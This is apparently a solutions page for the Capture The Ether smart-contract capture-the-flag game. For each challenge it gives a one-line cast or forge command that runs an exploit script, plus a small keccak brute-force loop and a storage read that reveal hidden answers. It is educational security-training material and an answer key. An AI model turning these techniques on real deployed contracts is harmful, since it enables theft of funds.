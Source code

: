 # Capture The Ether

NOTE: [Capture The Ether](https://capturetheether.com/) was deployed in the Ropsten network, but the network is currently deprecated.

**Challenges**
- [Warmup](#warmup)
  - [Deploy a contract](#deploy-a-contract)
  - [Call me](#call-me)
  - [Choose a nickname](#choose-a-nickname)
- [Lotteries](#lotteries)
  - [Guess the number](#guess-the-number)
  - [Guess the secret number](#guess-the-secret-number)
  - [Guess the random number](#guess-the-random-number)
  - [Guess the new number](#guess-the-new-number)
  - [Predict the future](#predict-the-future)
  - [Predict the block hash](#predict-the-block-hash)
- [Math](#math)
  - [Token sale](#token-sale)
  - [Token whale](#token-whale)
  - [Retirement fund](#retirement-fund)
  - [Mapping](#mapping)
- [Miscellaneous](#miscellaneous)
  - [Assume ownership](#assume-ownership)
  - [Token bank](#token-bank)

## Warmup

### Deploy a contract
Just send a transaction via Metamask.

### Call me
```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "callme()"
```

### Choose a nickname
```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "setNickname(bytes32)" $(cast --to-bytes32 1)
```

## Lotteries

### Guess the number
```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "guess(uint8)" 42 --value 1ether
```

### Guess the secret number
```py
import sha3

for i in range(1 << 8):
    k = sha3.keccak_256()
    k.update(bytes([i]))
    if k.hexdigest() == "db81b4d58595fbbbb592d3661a34cdca14d7ab379441400cbfa1b78bc447c365":
        print(i)
        break
```
Result: `170`

```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "guess(uint8)" 170 --value 1ether
```

### Guess the random number
```
$ cast storage $INSTANCE_ADDRESS 0
0x0000000000000000000000000000000000000000000000000000000000000066
```

```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "guess(uint8)" 0x66 --value 1ether
```

### Guess the new number
```
forge script src/CaptureTheEther/GuessTheNewNumber/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

### Predict the future
```
forge test --match-path src/CaptureTheEther/PredictTheFuture/Exploit.t.sol
```

### Predict the block hash
```
forge test --match-path src/CaptureTheEther/PredictTheBlockHash/Exploit.t.sol
```

## Math

### Token sale
```
forge script src/CaptureTheEther/TokenSale/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

### Token whale
```
forge script src/CaptureTheEther/TokenWhale/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

### Retirement fund
```
forge script src/CaptureTheEther/RetirementFund/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

### Mapping
```
forge script src/CaptureTheEther/Mapping/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

## Miscellaneous

### Assume ownership
```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "AssumeOwmershipChallenge()" 
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "authenticate()"
```

### Token bank
```
forge script src/CaptureTheEther/TokenBank/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```
